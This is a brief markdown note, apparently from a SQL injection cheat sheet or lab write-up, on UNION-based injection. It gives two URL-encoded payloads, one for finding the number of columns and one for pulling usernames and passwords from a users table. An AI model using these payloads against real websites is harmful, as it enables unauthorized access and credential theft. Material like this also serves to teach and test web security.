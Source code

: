 # Union

Determine number of columns:

```sql
'+UNION+SELECT+'abc','def'--
```

* example is for 2 columns

Retrieve contents of `users` table:

```sql
'+UNION+SELECT+username,+password+FROM+users--
```
